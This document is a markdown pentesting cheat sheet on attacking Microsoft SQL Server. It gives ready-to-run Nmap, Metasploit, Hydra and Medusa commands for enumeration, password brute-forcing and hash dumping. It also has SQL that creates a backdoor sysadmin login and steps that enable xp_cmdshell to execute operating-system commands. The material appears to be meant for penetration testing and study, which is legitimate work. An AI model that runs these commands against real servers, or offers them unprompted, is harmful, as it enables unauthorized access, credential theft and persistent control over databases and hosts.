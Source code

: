 # MSSQL Enumeration(1433)

MSSQL is Microsoft SQL Server for database management mainly for the windows-based system. SQL servers generally use port 1433 but you may found on other ports as well.

### **Databases to look**

- **master Database**: contains Server's configuration settings and login account information
- **msdb Database**: used by SQL Server Agent for scheduling alerts and jobs.



### Information Gathering

**Version detection without credentials** 

Nmap 

```basic
nmap -p 1433 -sV 127.0.0.1
```

Metasploit

```basic
use auxiliary/scanner/mssql/mssql_ping
set rhosts 127.0.0.1
exploit
```


**Some important Nmap scripts**

```
ms-sql-info                    >> information regarding the database
ms-sql-brute		       >> Bruteforce weak password for authentication [mostly username=sa,mssql.password=]
ms-sql-hasdbaccess.nse         >> Find database name for sa user and other
ms-sql-tables.nse              >> Query for Tables names
ms-sql-xp-cmdshell.nse         >> 2000 version of SQL Server xp_cmdshell is enabled by default so we can even execute OS command

```

**Usage**

```
nmap -p 1433 --script ms-sql-info 127.0.0.1
nmap -p 1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=Password 127.0.0.1
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=sa,mssql.password=Password 127.0.0.1
nmap -p 1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=Password 127.0.0.1
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=Password,ms-sql-xp-cmdshell.cmd="whoami" 127.0.0.1

```


### Using Metasploit

Version detection

```basic
use auxiliary/admin/mssql/mssql_sql
```

Enumerate server and try to get all info

```basic
use auxiliary/admin/mssql/mssql_enum
```

SQL Users Enumeration

```basic
use auxiliary/admin/mssql/mssql_enum_sql_login
```

Dumping Database

```basic
use auxiliary/admin/mssql/mssql_findandsampledata
```

Hash dump of the users 

```basic
use auxiliary/scanner/mssql/mssql_hashdump
```

Checking for command execution using Xp_cmdshell

```basic
use exploit/windows/mssql/mssql_payload
```

Gain privileges by impersonating another user

```basic
use auxiliary/admin/mssql/mssql_escalate_execute_as
```

### **Usage**

```
use auxiliary/admin/mssql/mssql_enum
set rhosts 127.0.0.1
set username admin
set password Pass123
exploit
```

> Some of these auxiliaries have a dependency like login_cred, databases_name or sql_file




### **Bruteforcing mssql**

**Default cred**

Default username is **sa** and the default password is **blank**.

Nmap

```basic
nmap -p1433 –script ms-sql-brute --script-args userdb=user_wordlist.txt_path,passdb=pass_wordlist.txt_path 127.0.0.1
```

Metasploit

```basic
use auxiliary/scanner/mssql/mssql_login
```

Hydra

```basic
hydra -L user_wordlist.txt_path –P pass_wordlist.txt_path 127.0.0.1 mssql
```

medusa

```basic
medusa -h 127.0.0.1 –U user_wordlist.txt_path –P pass_wordlist.txt_path –M mssql
```

> sometimes brute-forcing may lock a user account so be careful





### If you have credentials login with the client tool

Interactive database shell 

```basic
sqsh -S 127.0.0.1 -U username -P Password -D [Database]
```

Impacket mssqlclient module

```basic
mssqlclient.py 'user_name:password@127.0.0.1'
```

GUI Tool use only if database is large in size

```basic
dbeaver          
```




### Common Queries

Information  | Query
------------ | -------------
Version			 |  SELECT @@version
Current User  |  SELECT SUSER_SNAME()  SELECT SYSTEM_USER
Current Role  |  SELECT IS_SRVROLEMEMBER('sysadmin')  SELECT user
Current Database |  SELECT db_name()
List All Databases  |  SELECT name FROM master..sysdatabases
List All Logins  |  SELECT * FROM sys.server_principals WHERE type_desc != 'SERVER_ROLE'
List All Users for Database  |  SELECT * FROM sys.database_principals WHERE type_desc != 'DATABASE_ROLE'
List All Sysadmins  |  SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1




### Query after login

Database version

```basic
SELECT @@version;
```

Server name

```basic
SELECT @@servername;
```

Get databases

```basic
SELECT name FROM master.dbo.sysdatabases ;
```

Get databases

```basic
SELECT name FROM master.sys.databases;
```

Get table names

```basic
SELECT table_name,table_schema from [databaseName].INFORMATION_SCHEMA.TABLES;
```

List Linked Servers

```basic
EXEC sp_linkedservers;
SELECT * FROM sys.servers;
```

List users

```basic
SELECT sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```

Create a user with sysadmin privs

```basic
CREATE LOGIN hacker WITH PASSWORD = 'h@cker@123';
sp_addsrvrolemember 'hacker', 'sysadmin';
```




### Try to Execute System command using xp_cmdshell

1. Try and see if it works as it’s disabled by default

```basic
xp_cmdshell 'whoami';
go
```

2. If first fails try to enable component using these commands

```basic
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
go
xp_cmdshell 'whoami';
go
```

3. If you have permission to enable it

```basic
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
go
xp_cmdshell 'whoami';
go
```


### References

[hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

[hackingarticles](https://www.hackingarticles.in/mssql-for-pentesternmap/)

[pentestlab](https://pentestlab.blog/)

[0xdf](https://0xdf.gitlab.io/tags.html#mssqlclient)

[SecLists](https://github.com/danielmiessler/SecLists)

[SofianeHamlaoui](https://github.com/SofianeHamlaoui/Pentest-Notes)
